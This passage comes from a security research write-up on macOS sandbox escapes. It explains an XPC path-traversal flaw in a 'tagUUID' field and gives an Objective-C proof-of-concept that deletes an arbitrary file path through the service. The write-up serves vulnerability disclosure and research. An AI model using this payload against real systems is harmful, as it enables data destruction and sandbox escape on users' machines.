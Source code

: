 <img src="../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241020163019774.png" alt="image-20241020163019774" style="zoom:30%;" />

Because the variable “`tagUUID`” is an arbitrary string, that can be controlled by the XPC client. The “`powerlog`” path can be hijacked to an arbitrary path.

### The exploit and demo

#### The Exploit 1: Arbitrary Path Delete

At line 160 of the function:

![image-20241020163201932](../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241020163201932.png)

It calls the method named “`archiveDirectoryAt:deleteOriginal:`” which will delete the “`powerlog`” path. So this gives the attacker a primitive to remove an arbitrary path:

```
    [[conn remoteObjectProxy] submitSignpostDataWithConfig:@{
        @"taskingAllowlist":@{},
        @"taskingStartDate":[NSDate now],
        @"taskingEndDate":[NSDate now],
        @"taskingSubmitSP":@0,
        @"taskingTagConfig":@{
            @"TagUUID":[NSString stringWithFormat:@"/../../../../../%@", path]
        }
    } withReply:^(id reply) {
        NSLog(@"reply:%@", reply);
    }];
```
